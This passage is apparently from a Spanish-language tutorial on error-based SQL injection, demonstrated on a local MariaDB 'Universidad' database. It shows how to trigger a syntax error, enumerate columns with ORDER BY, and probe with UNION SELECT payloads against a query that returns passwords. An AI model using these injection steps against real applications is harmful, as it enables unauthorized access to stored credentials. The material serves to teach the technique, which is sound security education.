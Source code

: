 ```sql
select id,password from Alumnos where nombre = 'omar';
```
Podemos generar un error de Syntaxis a través de esta primera sentencia y nos podemos basar con el error para generar nuestra inyecciones, por eso se le conoce **Error Based**, el objetivo es primero generar el error para después generar un ordenamiento

```sql
MariaDB [Universidad]> select id,password from Alumnos where nombre = omar'';
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' at line 1
```
Una vez generado el error procederemos a enumerar las columnas con **order by** primero empezaré desde la 5 hasta llegar a enumerar las que hace la sentencia por detrás

> Generalmente en las bases de datos a la hora de consultar un registro siempre se consultará un ID primero ya que es una forma de llevar un orden en los registros

![](/assets/img/commons/SQLI/sql6.png) 

Observamos que nuestro tope de las columnas del llamado a nombre y contraseña son 2 columnas por lo tanto podemos aplicar un **union select** a nuestras columnas existentes de la sentencia 

```sql
select nombre,password from Alumnos where id = 1 union select 1,2;
```
(Podemos agregar valores NULL en los campos o directamente escribir texto para ver la interpretación de nuestros valores en las columnas)

```sql
select nombre,password from Alumnos where id = 1 union select NULL,NULL;
```